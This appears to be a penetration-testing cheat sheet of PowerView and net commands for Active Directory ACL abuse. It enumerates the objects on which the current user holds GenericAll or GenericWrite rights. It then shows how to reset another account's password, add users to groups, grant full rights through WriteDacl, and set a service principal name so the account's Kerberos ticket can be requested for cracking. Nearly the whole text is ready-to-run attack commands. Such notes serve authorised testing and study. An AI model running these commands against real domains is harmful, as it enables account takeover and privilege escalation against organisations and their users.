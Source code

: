 ```
# enumerate specific object ACL
Get-ObjectAcl -Identity testservice2 -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# enum all users current user has GenericAll to
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# enum all groups user has access GenericAll to
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# enum for genericwrite on computer object
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

### ACE Abuse

#### GenericAll

Abuse GernicAll ACL over Group object

```
# change user password
net user testservice1 h4x /domain

# add user to group
net group testgroup offsec /add /domain
```

#### WriteDacl

```
# add GenericAll using WriteDACL
Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All
```

#### GenericWrite

```
#Check if current user has already an SPN setted:
Get-DomainUser -Identity <UserName> | select serviceprincipalname
 
#Force set the SPN on the account:
Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}

#nab SPN
PS C:\Tools> $u = get-domainuser <UserName>
PS C:\Tools> $u |get-domainspnticket |fl
```

